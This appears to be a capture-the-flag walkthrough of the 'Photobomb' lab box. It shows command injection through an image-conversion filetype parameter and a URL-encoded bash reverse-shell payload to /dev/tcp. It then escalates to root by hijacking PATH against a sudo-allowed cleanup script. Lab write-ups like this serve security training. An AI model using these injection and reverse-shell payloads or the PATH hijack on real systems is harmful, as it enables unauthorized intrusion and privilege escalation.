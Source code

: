 # Photobomb box

## enum

the web for printing image with input
- img name: LFI
- run exiftool with the output image (printed img). We see an intersting info that Little CMS. It has LFI vul in searchsploit. but current web run on ruby, not php. That maybe it not work.
- type, size: command injection
- i try to do an command injection. that I change the file type to `filetype=png.txt`.
	- then the output file is .txt file. And hint to me that the web use `ImageMagick` to convert images.
	- test command injection
		- make python http server listen
			```bash
			python3 -m http.server 81
			```
		- request with
			```
			filetype=png`curl+http://MyIP:81`
			```
		- -> we recieve request.
	- get rev-shell with bash command (***remember to url encode your payload. I lost many time to try many shell, and figure out that I need to encode the payload :D***):
		```
		filetype=png`bash -c 'exec+bash+-i+%26>/dev/tcp/10.10.14.74/81+<%261'`
		```


## user

- we get `wizard@photobomb` with the reverse shell.
- list out command run with sudo with:
	```bash
	sudo -l
	```
	```
	User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
	```
	```sh
	# file: /opt/cleanup.sh
	#!/bin/bash
	. /opt/.bashrc
	cd /home/wizard/photobomb

	# clean up log files
	if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
	then
	/bin/cat log/photobomb.log > log/photobomb.log.old
	/usr/bin/truncate -s0 log/photobomb.log
	fi

	# protect the priceless originals
	find source_images -type f -name '*.jpg' -exec chown root:root {} \;
	```
	- every command use with absolute-path except of find :D. We'll use the PATH technique.
	- but now we run with sudo so we need to do [something more](https://unix.stackexchange.com/questions/83191/how-to-make-sudo-preserve-path).
		```bash
		sudo PATH=`pwd`:$PATH /opt/cleanup.sh
		```
		- we can try this locally with [my test](exploit/pri-esc/test-suPath/)